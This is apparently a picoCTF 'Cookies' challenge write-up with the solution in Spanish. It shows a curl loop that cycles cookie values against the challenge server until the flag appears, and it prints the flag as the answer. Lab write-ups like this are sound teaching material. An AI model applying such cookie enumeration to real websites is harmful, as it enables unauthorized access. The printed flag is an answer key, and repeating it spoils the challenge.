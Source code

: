 # Cookies

## Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)
## Hints 

* (None)

## Solución

En la terminal de webshell, ingresamos un **for** especificando que busque la cookie en la que se esconde la flag en un numero del 1 al 20,  enseguida ingresamos el link modificado con un **"check"** al final del url, después en la cookie ponemos una función en la que busca en cada cookie y al final nos muestra en cual estaba escondida para esterilizar mas la salida de la flag se agrego un **"grep -oE "picoCTF{.*?"}"** para que se visualice mejor el resultado de la flag.

```
Jaz_sparrow-picoctf@webshell:~$ for i in {1..20}; do curl -s http://mercury.picoctf.net:6418/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
            
Jaz_sparrow-picoctf@webshell:~$ for i in {1..20}; do curl -s http://mercury.picoctf.net:6418/check -H "Cookie: name=$i"; done | grep -oE "picoCTF{.*?"}
picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
Jaz_sparrow-picoctf@webshell:~$ 
```

### Respuesta: picoCTF{3v3ry1_l0v3s_c00k135_88acab36}